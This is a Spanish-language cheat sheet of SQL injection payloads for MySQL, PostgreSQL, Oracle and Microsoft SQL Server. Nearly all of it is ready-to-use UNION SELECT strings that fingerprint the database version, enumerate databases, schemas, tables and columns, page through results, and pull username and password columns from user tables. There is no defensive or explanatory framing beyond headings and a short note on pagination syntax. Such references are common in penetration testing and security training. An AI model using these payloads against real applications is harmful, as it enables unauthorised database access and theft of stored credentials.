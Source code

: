 
---
# Cheatsheet de SQLi en Bases de Datos Comunes

En este documento recogemos las principales consultas de enumeración y extracción de información mediante **inyecciones SQL (SQLi)** en las bases de datos más habituales: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ).  

---

# MySQL

## Obtener versión
```sql
' UNION SELECT NULL, @@version -- 
```

## Listar bases de datos
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'nombre_base_datos' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' AND table_schema = 'nombre_base_datos' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users -- 
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0 -- 
```

---

# PostgreSQL

## Obtener versión
```sql
' UNION SELECT NULL, version() -- 
```

## Listar bases de datos
```sql
' UNION SELECT datname, NULL FROM pg_database -- 
```

## Listar schemas en la base de datos actual
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata -- 
```

## Listar tablas de un esquema
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'public' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users -- 
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0 -- 
```

---

# Oracle

## Obtener versión
```sql
' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM = 1 -- 
```

## Listar schemas (usuarios)
```sql
' UNION SELECT NULL, username FROM all_users -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'ESQUEMA' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA_EN_MAYUSC' -- 
```

## Extraer datos
```sql
' UNION SELECT NULL, USER FROM DUAL -- 
```

## Paginación (con ROWNUM)
```sql
' UNION SELECT NULL, col FROM (SELECT col, ROWNUM rn FROM tabla WHERE ROWNUM <= 20) WHERE rn > 10 -- 
```

---

# Microsoft SQL Server (MSSQL)

## Obtener versión
```sql
' UNION SELECT NULL, @@version -- 
```

## Listar bases de datos
```sql
' UNION SELECT name, NULL FROM sys.databases -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dbo' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'PRODUCT' AND TABLE_SCHEMA = 'dbo' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM nombre_tabla -- 
```

## Paginación
```sql
' UNION SELECT TOP 10 NULL, col FROM tabla -- 
' UNION SELECT NULL, col FROM tabla ORDER BY id OFFSET 10 ROWS FETCH NEXT 10 ROWS ONLY -- 
```

---

## Versiones

- **MySQL** → usa `LIMIT` para paginación.  
- **PostgreSQL** → muy similar a MySQL (`LIMIT ... OFFSET`).  
- **Oracle** → usa `ROWNUM` o subconsultas para limitar resultados.  
- **MSSQL** → versiones antiguas usan `TOP`; versiones modernas permiten `OFFSET ... FETCH`.  

---

